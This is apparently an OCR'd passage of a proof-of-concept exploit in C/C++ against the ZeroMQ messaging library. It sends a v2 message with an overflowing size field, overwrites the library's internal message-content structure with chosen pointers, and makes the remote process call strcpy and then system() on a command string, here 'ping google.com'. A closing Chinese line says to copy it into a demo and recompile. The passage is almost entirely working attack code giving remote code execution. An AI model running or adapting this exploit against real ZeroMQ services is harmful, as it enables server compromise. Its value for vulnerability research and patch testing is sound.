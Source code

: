 ```
0x02, /* v2_decoder_t::eight_byte_size_ready */
0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, /* msg_size */
};
send(s, v2msg, sizeof(v2msg), 0);

/* Write UNTIL the location of zmq::msg_t::content_t */
size_t plsize = 8183;
uint8_t* pl = (uint8_t*)calloc(1, plsize);
send(s, pl, plsize, 0);
free(pl);

uint8_t content_t_replacement[] = {
/* void* data */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* size_t size */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* msg_free_fn *ffn */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* void* hint */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};

/* Assumes same endianness as target */
memcpy(content_t_replacement + 0, &arg1Addr, sizeof(arg1Addr));
memcpy(content_t_replacement + 16, &funcAddr, sizeof(funcAddr));
memcpy(content_t_replacement + 24, &arg2Addr, sizeof(arg2Addr));

/* Overwrite zmq::msg_t::content_t */
send(s, content_t_replacement, sizeof(content_t_replacement), 0);

close(s);
sleep(1);
}

char destbuffer[100];
char srcbuffer[100] = "ping google.com";

int main(void)
{
Thread* rt = new Thread();
sleep(1);

callRemoteFunction((uint64_t)destbuffer, (uint64_t)srcbuffer,
(uint64_t)strcpy);

callRemoteFunction((uint64_t)destbuffer, 0, (uint64_t)system);

return 0;
}

复制到demo重新编译
```  
  